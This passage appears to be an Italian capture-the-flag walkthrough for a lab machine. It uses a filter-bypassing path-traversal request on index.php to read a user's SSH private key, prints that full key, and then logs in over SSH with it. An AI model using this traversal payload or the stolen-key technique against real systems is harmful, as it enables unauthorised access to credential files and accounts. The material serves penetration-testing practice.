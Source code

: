 1) Sfruttando la vulnerabilità di prima possiamo scoprire qual'è il file id_rsa per trovarci una connessione ssh all'account di michael:
2) Injectiamo questo: GET /index.php?page=/..././..././..././..././home/michael/.ssh/id_rsa
Output:
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G
YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+
4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/
Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4
1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC
DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0
+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE
hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L
jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6
IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C
aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/
KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC
tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge
U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0
fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V
PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS
3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA
fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT
AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn
In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----

3) Creiamo un file nano e ci mettiamo questo file e lo chiamiamop id_rsa
4) Poi cambiamo i privilegi a id_rsa: 
chmod 600 id_rsa
5) Poi ti connetti a ssh: 
ssh michael@10.10.11.166  -i id_rsa
